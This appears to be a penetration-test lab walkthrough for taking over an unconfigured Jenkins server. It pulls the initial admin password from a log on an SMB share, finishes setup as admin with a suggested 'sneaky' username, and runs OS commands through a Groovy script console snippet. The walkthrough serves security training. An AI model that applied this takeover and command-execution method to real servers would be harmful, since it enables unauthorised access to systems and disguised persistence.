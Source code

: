 +++
title = "Jenkins"
weight = 3
+++

## 1. First impressions
This Jenkins server appears to have been installed but never fully configured.
This is acctually common with software that ships with other software.

![](./jenkins1.png)

The web console tells us that there is an admin password written somewhere in a directory we don't have access to. 
However, it also mentions the file is written to the Jenkins log.  

## 2. Accessing the Jenkins dir from the SMB share
Connect back to the SMB share we accessed previously.  Take a look inside the Jenkins directory.
![](./jenkins2.png)

There appear to be three files with the *.log* extention.  Download them both.  Looking inside the err log file we can see 
the one-time admin password.

##### jenkins.err.log
```
2023-03-30 15:27:34.096+0000 [id=1]     WARNING o.e.j.s.handler.ContextHandler#setContextPath: Empty contextPath
2023-03-30 15:27:34.437+0000 [id=1]     INFO    org.eclipse.jetty.server.Server#doStart: jetty-10.0.13; built: 2022-12-07T20:13:20.134Z; git: 1c2636ea05c0ca8de1ffd6ca7f3a98ac084c766d; jvm 17.0.6+9-LTS-190
2023-03-30 15:27:38.030+0000 [id=1]     INFO    o.e.j.w.StandardDescriptorProcessor#visitServlet: NO JSP Support for /, did not find org.eclipse.jetty.jsp.JettyJspServlet
2023-03-30 15:27:38.499+0000 [id=1]     INFO    o.e.j.s.s.DefaultSessionIdManager#doStart: Session workerName=node0
2023-03-30 15:27:41.307+0000 [id=1]     INFO    hudson.WebAppMain#contextInitialized: Jenkins home directory: C:\ProgramData\Jenkins\.jenkins found at: EnvVars.masterEnvVars.get("JENKINS_HOME")
2023-03-30 15:27:41.725+0000 [id=1]     INFO    o.e.j.s.handler.ContextHandler#doStart: Started w.@31c269fd{Jenkins v2.387.1,/,file:///C:/ProgramData/Jenkins/war/,AVAILABLE}{C:\ProgramData\Jenkins\war}
2023-03-30 15:27:41.803+0000 [id=1]     INFO    o.e.j.server.AbstractConnector#doStart: Started ServerConnector@6591f517{HTTP/1.1, (http/1.1)}{0.0.0.0:8080}
2023-03-30 15:27:41.865+0000 [id=1]     INFO    org.eclipse.jetty.server.Server#doStart: Started Server@55ca8de8{STARTING}[10.0.13,sto=0] @12336ms
2023-03-30 15:27:41.881+0000 [id=25]    INFO    winstone.Logger#logInternal: Winstone Servlet Engine running: controlPort=disabled
2023-03-30 15:27:42.801+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Started initialization
2023-03-30 15:27:43.068+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Listed all plugins
2023-03-30 15:27:46.271+0000 [id=30]    INFO    jenkins.InitReactorRunner$1#onAttained: Prepared all plugins
2023-03-30 15:27:46.286+0000 [id=30]    INFO    jenkins.InitReactorRunner$1#onAttained: Started all plugins
2023-03-30 15:27:46.328+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Augmented all extensions2023-03-30 15:27:47.506+0000 [id=31]    INFO    jenkins.InitReactorRunner$1#onAttained: System config loaded
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: System config adapted
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Loaded all jobs
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Configuration for all jobs updated
2023-03-30 15:27:47.584+0000 [id=31]    INFO    jenkins.install.SetupWizard#init: 

*************************************************************
*************************************************************
*************************************************************

Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

f9d8aa****************321f63c6fa

This may also be found at: C:\ProgramData\Jenkins\.jenkins\secrets\initialAdminPassword

*************************************************************
*************************************************************
*************************************************************

2023-03-30 15:28:08.935+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Completed initialization
2023-03-30 15:28:08.983+0000 [id=24]    INFO    hudson.lifecycle.Lifecycle#onReady: Jenkins is fully up and running
```

Here we can see the temporary admin password just as expected *f9d8aa\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*321f63c6fa*.

## 3. Finish setting up with the admin password
> :WARNING: *You should have full resolution screenshots with timestamps of every action you take to setup this Jenkins server*
>

* Enter the temporary admin password and click on the "**Continue**" button

![](./jenkins3.png)

* Click on the big "**Install suggested plugins**" button
![](./jenkins4.png)

* Once the installation wizard finishes select "**Skip and continue as admin**".  Alternitively you could create an admin user, maybe name it richard.f if you're trying to be sneaky.
![](./jenkins5.png)

* Nothing to do here just click on the "**Save and Finish**" button.
![](./jenkins6.png)

* Contratulations you are now the Jenkins administrator and this server is ready for use.  Click on "**Start using Jenkins**".
![](./jenkins7.png)

> :WARNING: *You should have full resolution screenshots with timestamps of every action you took to setup this Jenkins server*

Now that we have admin access to the Jenkins web console we can ensure that the script console is turned on. 
This will allow us to command the underlying operating system using whatever permissions this Jenkins server is currently 
running with.


## 4. Groovyscript OS command execution
With the script console enabled (it's enabled by default), executing OS commands is trivial using Groovyscript

* Navigate to **/script** and run the following Groovyscript snippet.

```Java
def sout = new StringBuffer(), serr = new StringBuffer();
def proc = 'cmd.exe /c dir'.execute();
proc.consumeProcessOutput(sout, serr);
proc.waitForOrKill(1000);
println "out> $sout err> $serr"
```
![](./jenkins8.png)
